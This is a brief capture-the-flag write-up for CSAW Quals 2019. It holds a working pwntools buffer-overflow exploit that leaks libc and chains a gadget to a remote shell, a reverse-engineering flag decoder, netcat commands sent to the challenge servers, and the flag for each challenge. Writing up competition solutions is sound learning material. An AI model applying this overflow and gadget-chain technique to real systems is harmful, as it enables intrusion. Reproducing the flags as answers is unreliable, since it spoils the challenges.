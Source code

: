 ```yaml
---
layout : default
---
```


# CSAW Quals 2019
16-09-2019

Don't have much time to explain everything, so enjoy the code.

## Baby Boi (PWN)

```py
from pwn import *

r = remote('pwn.chal.csaw.io', 1005)
context(os='linux',arch='amd64')

r.recvline()
printf_leak = r.recvline().split(': ')[1].replace('\n','')
printf_leak = int(printf_leak, 16)

libc = ELF("libc-2.27.so")
printf_addr = libc.symbols['printf']

libc_base = printf_leak - printf_addr

one_gadget = 0x4f2c5 # rcx=NULL
pop_rcx = 0x3eb0b
payload = 'A'*40
payload += p64(libc_base + pop_rcx)
payload += p64(0) # rcx = 0
payload += p64(libc_base + one_gadget)
log.info("payload : %s", payload)
r.sendline(payload)
r.interactive()
```

FLAG : flag{baby_boi_dodooo_doo_doo_dooo}

---

## Beleaf (RE)

```py
b = [119, 102, 123, 95, 110, 121, 125, 255, 98, 108, 114, 255, 255, 255, 255, 255, 255, 97, 101, 105, 255, 111, 116, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 103, 255, 255, 255, 255, 255, 255, 117, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 0, 0, 0, 0]
a = [1, 9, 17, 39, 2, 0, 18, 3, 8, 18, 9, 18, 17, 1, 3, 19, 4, 3, 5, 21, 46, 10, 3, 10, 18, 3, 1, 46, 22, 46, 10, 18, 6]
flag = ""
for i in a:
	flag += chr(b[i])
print flag
```

FLAG : flag{we_beleaf_in_your_re_future}

---

## Callsite (RE)

```
./callsite 400CBB ABC
```

argv[1] is the address of block containing code to print content of flag.txt

```
echo "400CBB ABC" | nc rev.chal.csaw.io 1001
```

FLAG : flag{you_got_the_call_site}

---

## Gibberish Check (RE)

I found the key "dsproxniujcvkhatlyfbA" passes all the constraints and get me the flag. I will re-write this part if I get some spare time.

```
echo "dsproxniujcvkhatlyfbA" | nc rev.chal.csaw.io 1000
```

FLAG : flag{first_ever_challenge}

---